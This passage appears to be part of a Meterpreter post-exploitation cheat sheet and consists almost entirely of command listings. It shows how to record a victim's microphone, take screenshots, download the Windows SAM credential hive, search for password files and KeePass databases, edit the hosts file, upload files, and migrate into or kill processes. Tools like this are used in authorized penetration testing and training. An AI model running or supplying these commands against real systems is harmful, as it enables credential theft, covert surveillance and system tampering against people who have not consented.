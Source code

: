 ```bash
meterpreter > shell
C:\> whoami
C:\> exit

# Execute single shell command
meterpreter > execute -f cmd.exe -a "/c whoami"

# Take a screenshot
meterpreter > screenshot

# Record microphone
meterpreter > record_mic -d 10
```

#### File System Operations

```bash
# Navigate directories
meterpreter > pwd
meterpreter > cd C:\\Users\\Administrator

# List files
meterpreter > ls

# Upload files
meterpreter > upload /path/to/local/file.txt C:\\target\\path\\

# Download files
meterpreter > download C:\\Windows\\repair\\sam /tmp/

# Edit a file
meterpreter > edit C:\\Windows\\System32\\drivers\\etc\\hosts

# Search for files
meterpreter > search -f password*.txt
meterpreter > search -d C:\\Users -f *.kdbx

# Calculate file hashes
meterpreter > checksum md5 C:\\Windows\\System32\\calc.exe
```

#### Process Control

```bash
# List processes
meterpreter > ps

# Migrate to another process
meterpreter > migrate 1234

# Kill a process
meterpreter > kill 1234

# Execute a program
meterpreter > execute -f notepad.exe

# Execute with arguments
meterpreter > execute -f cmd.exe -a "/c dir C:\\"

# Execute and interact with output
meterpreter > execute -f cmd.exe -a "/c ipconfig /all" -i -H
```
